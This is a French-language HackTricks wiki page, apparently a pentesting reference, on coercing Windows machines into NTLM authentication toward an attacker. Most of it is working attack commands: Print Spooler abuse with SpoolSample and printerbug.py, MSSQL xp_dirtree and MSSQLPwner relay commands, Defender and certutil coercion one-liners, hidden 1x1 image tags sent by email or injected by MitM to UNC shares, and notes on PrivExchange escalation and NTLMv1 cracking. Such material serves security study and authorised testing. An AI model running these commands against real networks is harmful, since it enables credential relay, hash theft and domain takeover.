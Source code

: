 # Forcer l'authentification privilégiée NTLM

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) est une **collection** de **déclencheurs d'authentification à distance** codés en C# utilisant le compilateur MIDL pour éviter les dépendances tierces.

## Abus du service Spooler

Si le service _**Print Spooler**_ est **activé**, vous pouvez utiliser des identifiants AD déjà connus pour **demander** au serveur d'impression du contrôleur de domaine une **mise à jour** sur les nouvelles tâches d'impression et simplement lui dire de **envoyer la notification à un système**.\
Notez que lorsque l'imprimante envoie la notification à des systèmes arbitraires, elle doit **s'authentifier contre** ce **système**. Par conséquent, un attaquant peut faire en sorte que le service _**Print Spooler**_ s'authentifie contre un système arbitraire, et le service **utilisera le compte d'ordinateur** dans cette authentification.

### Trouver des serveurs Windows sur le domaine

En utilisant PowerShell, obtenez une liste de machines Windows. Les serveurs sont généralement prioritaires, concentrons-nous donc là-dessus :
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Finding Spooler services listening

En utilisant un @mysmartlogin légèrement modifié (Vincent Le Toux) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), vérifiez si le service Spooler est à l'écoute :
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Vous pouvez également utiliser rpcdump.py sur Linux et rechercher le protocole MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Demander au service de s'authentifier contre un hôte arbitraire

Vous pouvez compiler[ **SpoolSample depuis ici**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
ou utilisez [**dementor.py de 3xocyte**](https://github.com/NotMedic/NetNTLMtoSilverTicket) ou [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) si vous êtes sur Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinaison avec la Délégation Non Contraignante

Si un attaquant a déjà compromis un ordinateur avec [Délégation Non Contraignante](unconstrained-delegation.md), l'attaquant pourrait **faire authentifier l'imprimante contre cet ordinateur**. En raison de la délégation non contraignante, le **TGT** du **compte d'ordinateur de l'imprimante** sera **enregistré dans** la **mémoire** de l'ordinateur avec délégation non contraignante. Comme l'attaquant a déjà compromis cet hôte, il pourra **récupérer ce ticket** et en abuser ([Pass the Ticket](pass-the-ticket.md)).

## Authentification RCP Forcée

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

L'attaque `PrivExchange` est le résultat d'un défaut trouvé dans la **fonctionnalité `PushSubscription` du Serveur Exchange**. Cette fonctionnalité permet au serveur Exchange d'être forcé par tout utilisateur de domaine ayant une boîte aux lettres à s'authentifier auprès de tout hôte fourni par le client via HTTP.

Par défaut, le **service Exchange s'exécute en tant que SYSTEM** et se voit accorder des privilèges excessifs (en particulier, il a des **privilèges WriteDacl sur le domaine avant la mise à jour cumulative de 2019**). Ce défaut peut être exploité pour permettre le **transfert d'informations vers LDAP et ensuite extraire la base de données NTDS du domaine**. Dans les cas où le transfert vers LDAP n'est pas possible, ce défaut peut encore être utilisé pour transférer et s'authentifier auprès d'autres hôtes au sein du domaine. L'exploitation réussie de cette attaque accorde un accès immédiat à l'Administrateur de Domaine avec n'importe quel compte utilisateur de domaine authentifié.

## À l'intérieur de Windows

Si vous êtes déjà à l'intérieur de la machine Windows, vous pouvez forcer Windows à se connecter à un serveur en utilisant des comptes privilégiés avec :

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Ou utilisez cette autre technique : [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Il est possible d'utiliser certutil.exe lolbin (binaire signé par Microsoft) pour forcer l'authentification NTLM :
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Si vous connaissez l'**adresse email** de l'utilisateur qui se connecte à une machine que vous souhaitez compromettre, vous pourriez simplement lui envoyer un **email avec une image 1x1** telle que
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
et quand il l'ouvre, il essaiera de s'authentifier.

### MitM

Si vous pouvez effectuer une attaque MitM sur un ordinateur et injecter du HTML dans une page qu'il visualisera, vous pourriez essayer d'injecter une image comme celle-ci dans la page :
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Si vous pouvez capturer [les défis NTLMv1 lisez ici comment les craquer](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;appelez-vous qu'afin de craquer NTLMv1, vous devez définir le défi Responder sur "1122334455667788"_

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

